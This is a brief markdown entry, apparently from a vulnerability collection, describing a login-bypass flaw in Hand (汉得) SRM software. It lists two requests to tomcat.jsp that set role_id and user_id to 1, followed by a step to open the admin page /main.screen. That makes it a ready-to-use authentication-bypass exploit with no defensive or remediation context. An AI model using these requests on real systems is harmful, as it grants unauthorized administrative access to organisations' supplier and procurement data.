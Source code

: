 ## 汉得SRM tomcat.jsp 登录绕过漏洞 

```
/tomcat.jsp?dataName=role_id&dataValue=1
/tomcat.jsp?dataName=user_id&dataValue=1

然后访问后台：/main.screen
```
